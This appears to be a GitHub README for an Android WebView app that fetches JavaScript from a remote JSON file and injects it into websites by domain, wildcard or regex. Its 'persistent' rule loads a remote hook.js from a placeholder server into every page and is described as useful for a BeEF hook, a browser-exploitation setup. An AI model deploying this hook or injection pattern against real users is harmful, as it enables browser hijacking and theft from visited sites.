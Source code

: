 # 🚀 WebView JavaScript Injector

This project is an **Android WebView app** that injects **custom JavaScript** into websites based on their **domain**, using **wildcards** and **regular expressions (regex)**. The JavaScript rules are stored in a remote JSON file.

---

## 🔹 How It Works

1. The app **downloads `app.json`** from a remote server.
2. It **extracts the domain** of the website being loaded.
3. It **checks the JSON file** for JavaScript rules matching the domain using:
   - ✅ **Exact match** (`b.com`)
   - ✅ **Wildcard match** (`*.example.com`)
   - ✅ **Regex match** (`regex:^.*\.secure\d+\.com$`)
   - ✅ **Default fallback** (if no match is found)
   - ✅ **Persistent scripts**  (optional: run on all pages if enabled useful for BeEF Hook)
4. The matching JavaScript is **injected into the WebView** using `evaluateJavascript()`.
5. When a user **navigates to another page**, the process repeats, injecting JavaScript for the new site.

---

## 📂 Example of Matching

| URL Loaded                   | Matched Rule                  | JavaScript Injected        |
|------------------------------|------------------------------|---------------------------|
| `https://api.example.com`    | `*.example.com`              | ✅ Wildcard matched       |
| `https://login.secure123.com` | `regex:^.*\.secure\d+\.com$` | ✅ Regex matched         |
| `https://b.com`              | `b.com`                      | ✅ Exact match           |
| `https://randomsite.com`     | `default`                    | ✅ Default script        |

---

## 📂 Example `app.json`

```json
{
    "url": "https://a.com",
    "websites": {
        "*.example.com": {
            "scripts": [
                "alert('Wildcard matched for example.com subdomains!');"
            ]
        },
        "regex:^.*\\.secure\\d+\\.com$": {
            "scripts": [
                "alert('Regex matched for secureX.com domains!');"
            ]
        },
        "b.com": {
            "scripts": [
                "alert('Welcome to B.com!');",
                "document.body.style.backgroundColor = 'blue';"
            ]
        }
    },
    "default": {
        "scripts": [
            "alert('No custom script for this site.');"
        ]
    },
    "persistent": {
         "scripts": [
            "var script = document.createElement('script');",
            "script.src = 'http://your-server.com/hook.js';",
            "document.head.appendChild(script);"
        ],
        "status": false
    }
}
